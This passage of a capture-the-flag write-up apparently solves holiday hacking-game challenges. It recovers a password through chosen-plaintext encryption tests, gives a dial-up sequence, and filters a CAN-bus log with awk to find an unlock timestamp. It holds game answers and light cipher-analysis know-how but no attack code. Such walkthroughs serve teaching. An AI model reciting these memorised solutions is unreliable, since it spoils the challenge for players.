If you've figured out the real password, be sure you run /home/elf/lights
~~~
- Step 6: Notice that the password/username was decrypted! ---> "Computer-TurnLightsOn"
- Step 7: Enter this password in the real "lights" binary prompt when you run it.

### Part 3: Vending Machine

- Step 1: Rename config file.
- Step 2: Try the vending machine binary int the lab and enter a new password:

~~~
"CandyCane-"    encrypts to "LVEdQPpBwr" -----> "CandyCane-" was what I found through table.	
"AAAAAAAAAAAA"  encrypts to "XiGRehmwXiGR"
"BBBBBBBBBBBB"  encrypts to "DqTpKv7fDqTp"
"CCCCCCCCCCCC"  encrypts to "Lbn3UP9WLbn3"
"ABCABCABCABC"  encrypts to "XqnRKPmfLiT3"
"DDDDDDDDDDD"   encrypts to "yv09iu8Qyv0"
"EEEEEEEEEEEE"  encrypts to "hxkr3zCnhxkr"
"hhhhhhhhhhhh"  encrypts to "nnUgokAhnnUg"
"aaaaaaaaaaaa"  encrypts to "9Vbtacpg9Vbt"
"nnnnnnnnnnnn"  encrypts to "bhE62XDBbhE6"
"ddddddddddddd" encrypts to "ORLdlwWbORLdl"
"yyyyyyyyyyyy"  encrypts to "iL5JQAMUiL5J"
"eeeeeeeeeeee"  encrypts to "wcZQAYuewcZQ"
~~~

- Step 3: I tried nearly everything but apparently skipped "CandyCane1". Wow, that was an ordeal!

## 33.6kbps (Fitzy Shortstack)

- Step 1: Dial the number --> 756-8347
- Step 2: Use the following sequence
	- baa DEE brr
	- aaah
	- WEWEWwrwrrwrr
	- beDURRdunditty
	- SCHHRRHHRTHRTR 
- Step 3: Got hint to talk to Shinny Upatree (to steal his tag ID) :)

## CAN-Bus Investigation (Wunorse Openslae)

- Step 1: "awk '/19B/' candump.log
- Step 2: Read through list of results 
- Step 3: Start from the bottom and work my way up until getting right time stamp. :)

~~~
elf@d08e90349b0f:~$ awk '/19B/' candump.log
(1608926661.626380) vcan0 244#000000019B
(1608926662.390980) vcan0 244#000000019B
(1608926664.626448) vcan0 19B#000000000000
(1608926667.837300) vcan0 244#00000019BE
(1608926671.122520) vcan0 19B#00000F000000
(1608926673.157900) vcan0 244#00000019BE
(1608926674.092148) vcan0 19B#000000000000
elf@d08e90349b0f:~$ ./runtoanswer 
There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of the UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 092148
Your answer: 092148

Checking....
Sorry, that answer is incorrect. Please try again!
elf@d08e90349b0f:~$ ./runtoanswer 
There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of the UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 122520
Your answer: 122520

Checking....
Your answer is correct!
~~~

